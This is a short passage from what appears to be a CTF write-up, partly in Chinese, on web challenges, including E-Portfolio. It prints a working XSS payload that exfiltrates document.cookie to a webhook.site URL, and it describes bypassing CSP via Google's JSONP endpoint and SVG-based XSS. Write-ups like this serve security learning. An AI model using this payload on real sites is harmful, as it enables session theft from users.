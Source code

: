 ![](/images/2023/05/A2tFSHS.png)

if you want to steal cookie

```
<img src=x onerror=fetch('/api/portfolio').then(r=&gt;{r.text().then(t=&gt;fetch('https://webhook.site/f25d50d9-9c87-4bce-8177-05a3360c5279/?='+btoa(document.cookie),{'mode':'no-cors'}))})>
```




### 插曲
有人直接使用admin/admin登入，所以http://url/share?username=admin，就有一堆假FLAG


## E-Portfolio (事後解)

關鍵點 : 用 svg 圖片進行 XSS / CSP JSONP

網站有設定DOMPurify.sanitize以及X-Xss-Protection等

其中可以使用 google 的 jsonp  ```https://accounts.google.com/o/oauth2/revoke?callback=```
可以參考 [JSONBEE](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)
